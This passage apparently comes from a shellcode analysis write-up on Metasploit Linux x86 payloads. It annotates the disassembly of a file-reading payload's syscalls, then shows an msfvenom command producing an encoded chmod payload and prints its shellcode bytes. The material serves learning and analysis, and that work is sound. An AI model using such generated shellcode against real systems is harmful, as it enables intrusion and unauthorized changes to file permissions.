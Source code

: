 Now that the file has been opened we can perform a read of the contents into a 4096 byte buffer.  The "open" system call returned to us a file descriptor (3) that we can now use for reading. The "read" system call is defined as:

```c
ssize_t read(int fd, void *buf, size_t count);
```

The resulting content that was read will be pointed to by ECX.
```
0x00402067 <+39>:	mov    ebx,eax              ; ebx = 3
0x00402069 <+41>:	mov    eax,0x3              ; eax = 3 (already was)
0x0040206e <+46>:	mov    edi,esp              ; edi = pointer to stack
0x00402070 <+48>:	mov    ecx,edi              ; ecx = pointer to stack
0x00402072 <+50>:	mov    edx,0x1000           ; edx = 4096
0x00402077 <+55>:	int    0x80                 ; #define __NR_read 3
```

Now that the content is stored in our buffer it will be written to the stdcout pre-defined file descriptor (1). The "write" system call is defined as:

```c
ssize_t write(int fd, const void *buf, size_t count);
```

At this point it is a matter of writing the buffer pointed to by ECX to STDOUT which will show the content on the console.
```
0x00402079 <+57>:	mov    edx,eax              ; edx = read return value
0x0040207b <+59>:	mov    eax,0x4              ; eax = 4 // write
0x00402080 <+64>:	mov    ebx,0x1              ; ebx = 1 // STDOUT
0x00402085 <+69>:	int    0x80	                ; #define __NR_write 4
```

<a name="sample3"></a>
## Sample3: linux/x86/chmod
To generate a payload with the linux/x86/chmod payload I executed the following command to generate shellcode that could be placed into my test C program.
```
[sengen@manjaro-x86 sample3]$ msfvenom -p linux/x86/chmod file=/tmp/test.txt mode=0755 -b '\x00' -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 65 (iteration=0)
x86/shikata_ga_nai chosen with final size 65
Payload size: 65 bytes
Final size of c file: 299 bytes
unsigned char buf[] =
"\xbd\x58\xd7\xe5\xe6\xd9\xed\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x0a\x31\x68\x14\x83\xe8\xfc\x03\x68\x10\xba\x22\x7c\x8c\x35"
"\x95\x2d\xb9\x47\x25\xd2\x39\x78\x51\xbf\x49\xa9\xed\x5a\xd9"
"\xc1\x23\xd1\x65\x5d\x3c\x42\xfe\x70\x3d\x74\xfe\xd3\xf3\xf4"
"\x94\xe2\x53\x38\xe8";
```
